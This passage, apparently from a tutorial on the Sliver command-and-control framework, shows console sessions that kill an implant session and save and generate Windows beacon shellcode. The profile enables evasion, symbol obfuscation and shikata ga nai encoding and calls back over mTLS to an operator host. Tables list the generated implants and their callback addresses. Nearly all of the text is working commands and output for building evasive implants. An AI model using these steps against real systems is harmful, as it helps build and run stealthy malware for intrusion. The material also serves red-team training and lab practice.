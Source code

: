 Speaking of which, we can also kill a session to make sure we clean up our steps.
```shell
sliver (DIFFICULT_DYNAMO) > sessions -K

[!] Lost session 4791259a DIFFICULT_DYNAMO - 10.10.69.19:50057 (DESKTOP-1AGTDPB) - windows/amd64 - Sun, 25 Sep 2022 01:51:13 EDT
[*] Killed DIFFICULT_DYNAMO (4791259a-d94a-4aba-b2cb-c99c86543d2b)
```

The lowercase `-k` flag can be used to specify a specific session, I just wanted to get rid of any and all of them.

### Profiles
Once you get deep into the weeds of it, typing out entire generation commands can get quite cumbersome and tedious. To make it easier, you can save your favorite configurations to a profile. Suppose I have a regular setup I like using to generate my beacon shellcode. I can use the below command to save it for later

```shell
sliver (DIFFICULT_DYNAMO) > profiles new beacon --arch amd64 --os windows --mtls 10.10.10.10:443 -f shellcode --evasion --timeout 300 --seconds 5 --jitter 1 funny_bytes

[*] Saved new implant profile (beacon) funny_bytes
```

Then, to generate this beacon shellcode, I can run a `profiles generate`
```shell
sliver (DIFFICULT_DYNAMO) > profiles generate --save . funny_bytes

[*] Generating new windows/amd64 beacon implant binary (5s)
[*] Symbol obfuscation is enabled
[*] Build completed in 00:00:55
? Encode shellcode with shikata ga nai? Yes
[*] Encoding shellcode with shikata ga nai ... success!
[*] Implant saved to /home/kali/Documents/sliver-test/HUNGRY_RUNAWAY.bin
```

You can also generate session implants in the same way, just omit the `beacon` part. We can also view what profiles we have saved, and what implants we have generated.
```shell
sliver (DIFFICULT_DYNAMO) > profiles

 Profile Name   Implant Type   Platform        Command & Control            Debug   Format      Obfuscation   Limitations 
============== ============== =============== ============================ ======= =========== ============= =============
 funny_bytes    beacon         windows/amd64   [1] mtls://10.10.10.10:443   false   SHELLCODE   enabled                   

sliver (DIFFICULT_DYNAMO) > implants

 Name               Implant Type   OS/Arch             Format   Command & Control            Debug 
================== ============== =============== ============ ============================ =======
 DIFFICULT_DYNAMO   beacon         windows/amd64   EXECUTABLE   [1] https://10.10.69.24      false 
 HUNGRY_RUNAWAY     beacon         windows/amd64    SHELLCODE   [1] mtls://10.10.10.10:443   false 
 PRACTICAL_JELLY    session        windows/amd64   EXECUTABLE   [1] https://192.168.3.6      false 
```

